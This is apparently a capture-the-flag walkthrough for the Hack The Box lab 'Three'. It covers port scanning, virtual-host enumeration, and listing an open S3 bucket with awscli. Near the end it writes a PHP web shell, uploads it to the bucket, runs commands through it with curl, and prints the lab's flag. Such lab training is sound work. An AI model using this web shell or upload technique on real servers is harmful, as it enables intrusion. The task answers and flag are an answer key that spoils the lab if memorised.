


# Three

## Scan

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ nmap -sT 10.129.241.183
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-15 21:04 +07
Nmap scan report for 10.129.173.82
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 64.91 seconds
```

## Task 1: How many TCP ports are open?

answer: 2

based on the nmap scan result [above](#scan).

## Task 2: What is the domain of the email address provided in the "Contact" section of the website?

answer: `thetoppers.htb`



## Task 3: In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

answer: `/etc/hosts`

add `thetoppers.htb` to `/etc/hosts`

```text
10.129.241.183 thetoppers.htb
```

## Task 4: Which sub-domain is discovered during further enumeration?

A Virtual Host (VH) is an Internet hosting service that allows organizations to host their websites on a single server. A VH can be used to host multiple websites, each with its own domain name, or it can be used to host multiple websites that share the same domain name. VHosts may or may not have public DNS records, so in order to access your site, you may need to change host names and addresses on your localhost (typically located in etc/hosts) or use the Host: header of a standard HTTP request.

use gobuster to enumerate sub-domain (vhost)

```bash
┌──(realkali㉿SeaDragnoL)-[/usr/share/seclists]
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --appen
d-domain
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://thetoppers.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.4
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb Status: 404 [Size: 21]
Found: gc._msdcs.thetoppers.htb Status: 400 [Size: 306]
Progress: 1713 / 4990 (34.33%)^C
[!] Keyboard interrupt detected, terminating.
```

- `-w`: path to wordlist
- `-u`: target url
- `--append-domain`: Append main domain from URL to words from wordlist. Otherwise the fully qualified domains need to be specified in the wordlist.

answer: s3.thetoppers.htb

## Task 5: Which service is running on the discovered sub-domain?

add `s3.thetoppers.htb` to `/etc/hosts` too

```text
10.129.241.183 thetoppers.htb
10.129.241.183 s3.thetoppers.htb
```

Amazon Simple Storage Service (Amazon S3) is an object storage service that offers industry-leading scalability, data availability, security, and performance. You can use Amazon S3 to store and retrieve any amount of data at any time, from anywhere.

answer: Amazon S3

## Task 6: Which command line utility can be used to interact with the service running on the discovered sub-domain?

Google search: interact with s3 services cli

answer: `awscli`

## Task 7: Which command is used to set up the AWS CLI installation?

answer: `aws configure`

```text
┌──(realkali㉿SeaDragnoL)-[~]
└─$ aws configure
AWS Access Key ID [None]: a
AWS Secret Access Key [None]: a
Default region name [None]: a
Default output format [None]: a
```

## Task 8: What is the command used by the above utility to list all of the S3 buckets?

answer: `aws s3 ls`

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ aws s3 ls --endpoint=http://s3.thetoppers.htb
2023-01-16 12:38:35 thetoppers.htb
```

## Task 9: This server is configured to run files written in what web scripting language?

answer: php



## SUBMIT FLAG

use the `ls` command to list objects under specified bucket:

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ aws s3 ls --endpoint=http://s3.thetoppers.htb s3://thetoppers.htb
                           PRE images/
2023-01-16 12:38:35          0 .htaccess
2023-01-16 12:38:36      11952 index.php
```

use the `cp` command to upload php payload:

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ echo '<?php system($_GET["cmd"]); ?>' > payload.php

┌──(realkali㉿SeaDragnoL)-[~]
└─$ aws s3 cp payload.php --endpoint=http://s3.thetoppers.htb s3://thetoppers.htb
upload: ./payload.php to s3://thetoppers.htb/payload.php
```

find flag:

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ curl http://thetoppers.htb/payload.php?cmd=ls
images
index.php
payload.php

┌──(realkali㉿SeaDragnoL)-[~]
└─$ curl http://thetoppers.htb/payload.php?cmd=ls+..
flag.txt
html

┌──(realkali㉿SeaDragnoL)-[~]
└─$ curl http://thetoppers.htb/payload.php?cmd=cat+../flag.txt
a980d99281a28d638ac68b9bf9453c2b

┌──(realkali㉿SeaDragnoL)-[~]
└─$
```

## References

[subdomain vs vhost](https://dev.to/christianpaez/subdomains-vs-virtual-hosts-2e71)

[amazons3](https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html)

[awscli](https://docs.aws.amazon.com/cli/v1/userguide/cli-chap-welcome.html)
